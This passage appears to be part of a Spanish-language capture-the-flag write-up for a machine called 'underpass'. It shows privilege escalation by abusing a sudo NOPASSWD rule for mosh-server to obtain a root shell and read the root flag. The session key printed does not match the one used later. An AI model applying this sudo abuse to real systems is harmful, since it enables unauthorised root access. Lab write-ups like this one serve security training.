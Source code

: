 ```bash 
typescript  user.txt
```

<h2 style="color: #9FEF00;">Escalada de privilegios.</h2>

Lo primero que intentamos ver son nuestros privilegios de sudo: 

```bash 
svcMosh@underpass:~$ sudo -l 
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

Lo ejecutamos: 
```bash 
svcMosh@underpass:~$ sudo mosh-server


MOSH CONNECT 60001 DLB7Fr1CXKnfRGwl2f8PPg

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 8645]
```

Parece que obtenemos un puerto y un string, intentamos conectarnos: 
```bash
svcMosh@underpass:~$ mosh-client 127.0.0.1 
mosh-client (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Usage: mosh-client [-# 'ARGS'] IP PORT
       mosh-client -c
svcMosh@underpass:~$ mosh-client 127.0.0.1 60001
MOSH_KEY environment variable not found.
```

Podemos inferir el string es la `HOST-KEY`
```bash 
svcMosh@underpass:~$ MOSH_KEY=+1W8nqLE1xyF2j0bPqSlOg mosh-client 127.0.0.1 60001

root@underpass:~# whoami
root
root@underpass:~# ls
root.txt
root@underpass:~# cat root.txt
beaa7ccebc91cf9668f32fc04b7dfe9d
root@underpass:~#
```
